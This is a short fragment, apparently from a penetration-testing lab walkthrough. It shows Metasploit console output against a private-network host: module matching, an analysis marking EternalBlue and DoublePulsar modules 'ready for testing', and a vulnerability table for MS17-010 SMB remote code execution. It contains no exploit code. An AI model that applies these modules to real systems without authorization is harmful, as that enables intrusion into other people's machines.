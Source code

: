 ```

```

```
[*]   192.168.248.133:445  exploit/windows/smb/ms17_010_eternalblue  (port match)
```

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > analyze
[*] Analysis for 192.168.248.133 ->
[*]   exploit/windows/smb/ms17_010_eternalblue - ready for testing
[*]   exploit/windows/smb/ms17_010_psexec - credentials are required
[*]   exploit/windows/smb/smb_doublepulsar_rce - ready for testing
```

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > vulns

Vulnerabilities
===============

Timestamp                Host             Name                        References
---------                ----             ----                        ----------
2023-01-08 13:38:28 UTC  192.168.248.133  MS17-010 SMB RCE Detection  CVE-2017-0143,CVE-2017-0144,CVE-2017-0145,CVE-2017-0146,CVE-2017-0147,CVE-2017-0148,MSB-MS17-010,URL-https://zerosum0
                                                                      x0.blogspot.com/2017/04/doublepulsar-initial-smb-backdoor-ring.html,URL-https://github.com/countercept/doublepulsar-d
                                                                      etection-script,URL-https://web.archive.org/web/20170513050203/https://technet.microsoft.com/en-us/library/security/m
                                                                      s17-010.aspx,URL-https://github.com/RiskSense-Ops/MS17-010,URL-https://risksense.com/wp-content/uploads/2018/05/White
                                                                      -Paper_Eternal-Blue.pdf,EDB-42030
```

```
```

```
```

